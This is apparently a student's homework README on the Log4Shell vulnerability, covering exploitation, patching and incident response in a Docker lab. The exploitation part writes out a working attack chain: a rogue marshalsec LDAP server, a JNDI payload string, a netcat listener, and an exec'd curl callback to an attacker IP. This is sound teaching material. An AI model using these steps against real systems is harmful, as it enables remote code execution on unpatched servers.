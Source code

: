 # Week9: Log4Shell Vulnerability Homework

Introduction: This project demonstrates the exploitation and mitigation of the Log4Shell vulnerability (CVE-2021-44228) using a vulnerable Java Spring Boot application deployed via Docker Compose. The objectives of this homework are:

- Simulate a real-world Log4Shell exploit scenario
- Apply MITRE ATT&CK, DEFEND, and REACT frameworks
- Harden and redeploy the application using secure coding practices

---

## Prerequisites
- Docker & Docker Compose
- Java + Maven (if building manually)
- Python 3 (for attacker LDAP simulation)
Also, Ports 8000, 8080, 1389 and 389 are open in your EC2 Security Group (for the app and LDAP server).

---

## Part 1: Exploitation (MITRE ATT&CK)
After launching the ldap app "python3 ldap_server.py"  i received this error: ldap3.core.exceptions.LDAPSocketOpenError: socket connection error while opening: [Errno 111] Connection refused; after researching this error, i came to the point of using marshalsec, which is a malicious LDAP redirect server, not a real LDAP directory; i cloned it (git clone https://github.com/mbechler/marshalsec.git) then built it. I then ran manually these commands 
# HTTP server (for payload)
cd exploit/
python3 -m http.server 8000

# LDAP redirect server
java -cp marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<your-ip>:8000/#Exploit
To exploit the Log4Shell vulnerability, a vulnerable Spring Boot app using Log4j was set up to log user input. A malicious LDAP server was launched using marshalsec to redirect requests to an HTTP server hosting a malicious Exploit.class. The exploit payload ${jndi:ldap://<attacker-ip>:1389/Exploit} was sent via a POST request to the app’s /log endpoint. When the app logged this input, it triggered the JNDI lookup, causing the app to connect to the LDAP server. This demonstrated remote code loading behavior, confirming the Log4Shell vulnerability's exploitation path from input to remote callback.

Proof of vulnerability exploitation:
![image](https://github.com/user-attachments/assets/892533b0-5fb8-49f6-9acd-80159a2bc812)
nc -lvnp 9999 listener received a connection from the target app's IP (Connection received on 164.52.0.91 51287); The incoming payload shows garbled data and headers (xterm-256color, hostname, etc.), indicating that the curl http://44.208.30.186:9999/ executed successfully inside the vulnerable app. 

To summarize What Just Happened
- the vulnerable Spring Boot app logged: {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"}
- That triggered a request to your rogue LDAP server (marshalsec).
- The LDAP server instructed the app to load a malicious .class file from your HTTP server.
- The malicious .class file contained: Runtime.getRuntime().exec("curl http://<attacker>:9999/");
- The target executed that, reaching your port 9999, confirming Remote Code Execution (RCE).

the file start_exploit.sh available in the exploit folder automates all this process.

## Part 2: Defense (MITRE DEFEND)
- Log4j upgraded to 2.17.0.
- Input validation implemented to block JNDI patterns.
To do this, we need to:
- Replace vulnerable LogController.java with patched/LogController.java.
- Upgrade log4j version to 2.17.0 in pom.xml.
- Rebuild and restart:

## Part 3: Response (MITRE REACT)
- Detect: Logs examined for exploit traces
- Contain: Vulnerable container stopped
- Eradicate: Patched container deployed
- Recover: System restored with mitigation verified

---

## Conclusion and Lessons Learned

- Logging libraries must be treated as part of the attack surface.
- Validate all input even when passed to internal services.
- MITRE frameworks provide a clear guide for security lifecycle management.

---

## References

- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [MITRE DEFEND](https://defend.mitre.org/)
- [MITRE REACT](https://www.mitre.org/publications/technical-papers/react-a-framework-for-incidence-response)

